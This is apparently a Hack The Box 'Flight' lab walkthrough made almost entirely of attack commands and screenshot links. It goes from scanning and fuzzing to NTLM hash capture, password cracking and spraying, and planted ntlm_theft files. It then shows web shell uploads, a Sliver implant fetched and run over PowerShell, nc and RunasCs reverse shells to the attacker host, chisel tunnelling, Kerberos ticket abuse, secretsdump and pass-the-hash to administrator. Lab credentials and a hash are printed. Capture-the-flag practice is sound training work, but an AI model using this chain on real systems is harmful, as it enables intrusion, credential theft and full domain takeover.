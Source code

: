 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.187
```
![image](https://github.com/user-attachments/assets/da0db716-6fc7-4868-9063-f8eb482b0699)

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.187/FUZZ -fs 301 -e .aspx,.php,.txt,.html,.sh
```
![image](https://github.com/user-attachments/assets/2850a394-3d54-4977-af3e-06b6a0943679)

```
http://10.10.11.187/js/
http://10.10.11.187/webalizer
```
![image](https://github.com/user-attachments/assets/a46bbaff-8c71-4086-83f8-508087d7cbc5)

![image](https://github.com/user-attachments/assets/8c539968-e03e-4566-86fb-d881f66241e1)

![image](https://github.com/user-attachments/assets/a6c97e05-0847-4dec-9825-f516fe4e5919)

```
smbclient -L \\\\10.10.11.187\\
```
![image](https://github.com/user-attachments/assets/5bd1feb8-6623-4ea0-9228-3a18044dd1ed)

```
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://flight.htb/ -H "Host: FUZZ.flight.htb" -fs 7069 -fw 22
http://school.flight.htb/
```
![image](https://github.com/user-attachments/assets/aee893f0-607c-4bcf-a79f-6e64c1b3b467)

![image](https://github.com/user-attachments/assets/3544e75a-a72e-4445-a9a8-2d8425e73698)

![image](https://github.com/user-attachments/assets/afe1a807-2a86-4823-bc31-ed7d4613d2ec)

![image](https://github.com/user-attachments/assets/afd9a8ae-b88a-4ec2-9bf9-8b7c2b3a2282)


```
http://school.flight.htb/index.php?view=C:\Windows\System32\drivers\etc\hosts
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```
![image](https://github.com/user-attachments/assets/bb59771b-0276-4f81-9240-b5d3b50f927f)

![image](https://github.com/user-attachments/assets/556c0fb2-f7c6-4da5-ba99-f436de0fa2d4)

```
responder -I tun0 -v
http://school.flight.htb/index.php?view=//10.10.14.10/htb
```
![image](https://github.com/user-attachments/assets/1e1626e5-4301-4a47-a35b-c62de8278213)

![image](https://github.com/user-attachments/assets/2b28de17-b9a4-4712-8e0b-a1760f40fdc4)

![image](https://github.com/user-attachments/assets/5766689f-d589-4935-8e18-ab27fcefeaf7)

```
john hash -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/cdd13c88-49a6-44dd-942d-de2ce714914c)

```
crackmapexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13'
smbclient -L \\\\10.10.11.187\\ -U flight.htb/svc_apache
smbclient \\\\10.10.11.187\\Users -U flight.htb/svc_apache
```
![image](https://github.com/user-attachments/assets/e294c7ed-cbe6-446f-a727-df2d691adf9b)

![image](https://github.com/user-attachments/assets/7c6e5380-1057-47e2-af76-99b635c8a462)

```
ldapdomaindump -u flight\\svc_apache -p 'S@Ss!K@*t13' 10.10.11.187
```
![image](https://github.com/user-attachments/assets/c3ebc833-0519-4560-b505-e72ff079fd02)

![image](https://github.com/user-attachments/assets/dcc8cf1f-0451-40b7-adb8-519e15e6fa2a)

```
cat domain_users.grep | grep "Domain Users" | awk -F' ' '{print $1}'
```
![image](https://github.com/user-attachments/assets/35ea9369-f4c7-4d9d-af70-c7aa79dbf8f3)

```
crackmapexec smb 10.10.11.187 -u users_all2 -p 'S@Ss!K@*t13'
smbclient \\\\10.10.11.187\\Users -U flight.htb/S.Moon
```
![image](https://github.com/user-attachments/assets/b2c28c8f-9b78-4ea5-a303-42bb3f8eb1bc)

![image](https://github.com/user-attachments/assets/e5025d57-1e46-460d-8c34-5a16dc3a7a12)

```
responder -I tun0 -v
git clone https://github.com/Greenwolf/ntlm_theft
cd ntlm_theft
python3 ntlm_theft.py --generate all --server 10.10.14.67 --filename htb
impacket-smbclient s.moon:'S@Ss!K@*t13'@flight.htb
use Shared
put htb/htb.scf
put htb/desktop.ini
```
![image](https://github.com/user-attachments/assets/10fbe7bd-87a5-48e3-bb56-023c24d00cc5)

![image](https://github.com/user-attachments/assets/b88fa92a-a028-4cbc-b5c2-66c7873b7b72)

![image](https://github.com/user-attachments/assets/f4e28f04-bad2-4f94-a7d0-a060cf8d571d)

![image](https://github.com/user-attachments/assets/1a94094b-c242-4f12-87c2-6001b7bd9647)

```
john hash2 -w=/usr/share/wordlists/rockyou.txt
```
![image](https://github.com/user-attachments/assets/c21d7cab-6462-4292-b2c1-78d94c8ca787)

```
smbmap -H flight.htb -u 'c.bum' -p 'Tikkycoll_431012284’
smbclient \\\\10.10.11.187\\Users -U flight.htb/c.bum
```
![image](https://github.com/user-attachments/assets/5f8f8e57-28d7-4b56-81ee-87b0b30ceadb)

![image](https://github.com/user-attachments/assets/302ae4c5-18e6-46f8-a03b-eca6ae622004)

![image](https://github.com/user-attachments/assets/1684f74d-d5b0-47b5-b676-18ac75e40f08)

```
shell.php
impacket-smbclient c.bum:'Tikkycoll_431012284'@flight.htb
use Web
cd flight.htb
put shell.php
curl 'http://flight.htb/shell.php?c=whoami'
```
![image](https://github.com/user-attachments/assets/cdaf2df1-802d-475f-b0d7-19d04a63c64e)

![image](https://github.com/user-attachments/assets/ac9f6582-c7d2-4c25-b307-d6f622182fb1)

![image](https://github.com/user-attachments/assets/7752f16c-5622-40f8-89e1-f73e954bde5a)

```
curl https://sliver.sh/install|sudo bash
sliver
service sliver start
```
![image](https://github.com/user-attachments/assets/7e2836e1-809d-41d9-bbb1-41ffe9863cf6)

![image](https://github.com/user-attachments/assets/7c22997e-2be4-4fdc-b72f-d3482509537b)

```
generate --os windows --arch 64bit --mtls 10.10.14.10 --reconnect 60 --save htb.exe
mtls
sudo python3 -m http.server 80
curl 'http://flight.htb/shell.php?c=powershell%20-c%20%22wget%2010.10.14.10%2Fhtb.exe%20-usebasicparsing%20-outfile%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe%3B%20C%3A%5Cusers%5Cpublic%5Cmusic%5Chtb.exe’
powershell -c "wget 10.10.14.67/htb.exe
-usebasiparsing -outfile C:\users\public\music\htb.exe; C:\users\public\music\htb.exe
sessions -i ce7
whoami
```
![image](https://github.com/user-attachments/assets/fdb9c34e-789b-44ed-8176-f8c7b6136895)

![image](https://github.com/user-attachments/assets/160a9bd1-dd78-4613-ab90-c23219853b1e)

```
upload RunasCs.exe
shell
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/0afb6079-5023-44bc-b3c8-cb525f89e915)

![image](https://github.com/user-attachments/assets/119887a8-bf17-43ee-a172-7b3faaf16e3d)

```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_linux_amd64.gz
gunzip chisel_1.9.1_linux_amd64.gz
cd C:\ProgramData
powershell -c wget 10.10.14.10/chisel_1.9.1_windows_amd64 -outfile c.exe
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
.\c.exe client 10.10.14.10:8000 R:8001:127.0.0.1:8000
```
![image](https://github.com/user-attachments/assets/bdca86b0-a387-4e04-9c76-50411f413638)

![image](https://github.com/user-attachments/assets/6dcb86d6-3447-4771-a36d-de86ae4a3b3a)

```
http://127.0.0.1:8001/
```
![image](https://github.com/user-attachments/assets/a4d6eb09-9059-4a20-b467-ffca60eb1b28)

![image](https://github.com/user-attachments/assets/fc837a14-ffb6-4d0d-bc6d-1f383582e673)

```
[Open another terminal]
generate --os windows --arch 64bit --mtls 10.10.14.10 --reconnect 60 --save htb.exe
Mtls
sessions -i 78218585
upload RunasCs.exe
Shell
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/3a113998-1dc5-4410-8b61-c484bab5cf4b)

![image](https://github.com/user-attachments/assets/4a91b011-9e9b-45ec-9fb2-c69966ee2151)

```
[Open another terminal]
OR
powershell -c wget 10.10.14.10/RunasCs.exe -outfile RunasCs.exe
rlwrap -cAr nc -lnvp 443
.\RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.10:443 cmd
whoami /all
```
![image](https://github.com/user-attachments/assets/63c1f959-50cd-43ae-a76a-e5fc03b6392c)

![image](https://github.com/user-attachments/assets/c612edcb-0edf-4b3d-ab89-7c8d20265d61)

```
https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx
cd C:\inetpub\development
powershell -c wget 10.10.14.10/cmd.aspx -outfile cmd.aspx
http://127.0.0.1:8001/cmd.aspx
```
![image](https://github.com/user-attachments/assets/a069aa36-aed7-4d57-8d62-f0e1dcda6314)

![image](https://github.com/user-attachments/assets/5d06d231-b107-4302-9ea5-0e63ef8330f0)

```
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
cd C:\ProgramData
powershell -c wget 10.10.14.10/nc64.exe -outfile nc64.exe
cd C:\inetpub\development
powershell -c wget 10.10.14.10/cmd.aspx -outfile cmd.aspx
http://127.0.0.1:8001/cmd.aspx
/c \ProgramData\nc64.exe -e cmd 10.10.14.10 443
rlwrap -cAr nc -lnvp 443
```
![image](https://github.com/user-attachments/assets/9615f407-2b80-4d81-8d9b-c116f2ce3292)

![image](https://github.com/user-attachments/assets/80674471-d7b9-4eac-ba95-2f71b28b502e)

![image](https://github.com/user-attachments/assets/ab427c83-1de6-4ed4-a7f3-15c3a63f98c6)

```
cd C:\ProgramData
powershell -c wget 10.10.14.10/Rubeus.exe -outfile Rubeus.exe
.\rubeus.exe tgtdeleg /nowrap
kirbi2ccache ticket.kirbi ticket.ccache
```
![image](https://github.com/user-attachments/assets/283dcf4b-40a0-4cad-a920-d2abe009304a)

```
cat ticket.b64 | base64 -d > ticket2.kirbi
```
impacket-ticketConverter ./ticket3.kirbi ticket.ccache
export KRB5CCNAME=ticket.ccache
sudo service virtualbox-guest-utils stop
sudo ntpdate -s 10.10.11.187
10.10.11.187 g0.flight.htb
./secretsdump.py -k -no-pass g0.flight.htb -just-dc-user administrator
```
![image](https://github.com/user-attachments/assets/2ba39d78-6c3e-4cab-965e-f328debb03c0)

![image](https://github.com/user-attachments/assets/67cffcf8-2ac6-483a-9c3e-c324d580c59b)

```
impacket-psexec administrator@flight.htb -hashes aad3b435b51404eeaad3b435b51404ee:43bbfc530bab76141b12c8446e30c17c
type ..\..\Users\Administrator\Desktop\root.txt
```
![image](https://github.com/user-attachments/assets/91e04112-107e-42f4-b399-c1d51640eb66)
